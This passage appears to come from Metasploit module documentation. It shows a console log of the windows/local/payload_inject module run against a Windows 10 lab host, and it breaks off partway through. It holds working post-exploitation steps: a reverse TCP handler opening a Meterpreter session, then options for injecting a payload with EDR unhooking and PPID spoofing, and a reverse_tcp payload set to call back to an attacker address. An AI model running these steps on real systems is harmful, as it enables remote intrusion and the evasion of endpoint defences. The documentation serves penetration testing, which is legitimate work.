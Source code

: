 ## Scenarios
### Windows 10x64 Build 17134 No PID
```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.168:5555
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49673) at 2020-01-22 13:10:13 -0600
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/payload_inject
msf exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION                       yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/payload_inject) > set session 1
session => 1
msf exploit(windows/local/payload_inject) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/payload_inject) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
```